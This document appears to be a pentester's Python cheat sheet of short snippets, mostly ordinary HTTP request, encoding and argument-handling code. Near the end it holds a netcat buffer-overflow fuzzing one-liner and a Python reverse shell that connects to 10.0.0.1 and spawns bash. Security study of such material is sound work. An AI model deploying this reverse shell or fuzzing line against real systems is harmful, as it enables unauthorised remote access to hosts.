 Start of Python3 Script: `#!/usr/bin/env python3`   

GET Request:   
```
# GET http://localhost?user=admin&password=admin
import requests
url = 'http://localhost'
params = {'user':'admin','password':'admin'}
r = requests.get(url = url, params = params)
print(r.content.decode())
```

Post Request:     
```
import requests
url = 'http://localhost'
headers = {"Content-Type" : "application/json"}
res = requests.request('POST',url,headers=headers,data=data,auth=auth)
print('[+] Headers:\n{}\n\n[+] Response:\n{}'.format(res.headers,res.text))
```

GET/POST Session Request:   
```
import requests
session = requests.session()
headers = {
    'Content-Type' : 'application/json',
}
# GET
url = 'http://localhost'
res1 = (session.get(url)).text
# POST - Maintaining cookies
url = 'http://localhost/login.php'
data = {'user':'admin','password':'admin'}
res2 = (session.post(url,headers=headers,data=data)).json()
```

Base64 encode input:   
```
import base64
input = 'encodedstring'
payload = base64.b64encode(input.encode("utf-8"))
```

Time now in EPOCH:   
```
import datetime
import time
dtime = datetime.datetime.now()
t = int(time.mktime(dtime.timetuple()))
```

Handle Arguments with argparse:   
```
import argparse
parser = argparse.ArgumentParser(description='test')
parser.add_argument("--url")
args = parser.parse_args()
url = args.url
```

Handle Arguments using Sys:   
```
import sys

ip = sys.argv[1]
port = sys.argv[2]
```

Python BO fuzzing on terminal:   
```
python -c 'print "\x41"*600' | nc 192.168.1.2 1234
```

Reverse shell:   
```
import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",53))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```


Cheat sheets:   
https://media-exp1.licdn.com/dms/document/C4E1FAQEiLwd0gtU6Og/feedshare-document-pdf-analyzed/0/1649395384023?e=2147483647&v=beta&t=PNX5mNjDqhIMwAvw7D2Y8x-A4_8LkLy7Z9jxnnvMDpo   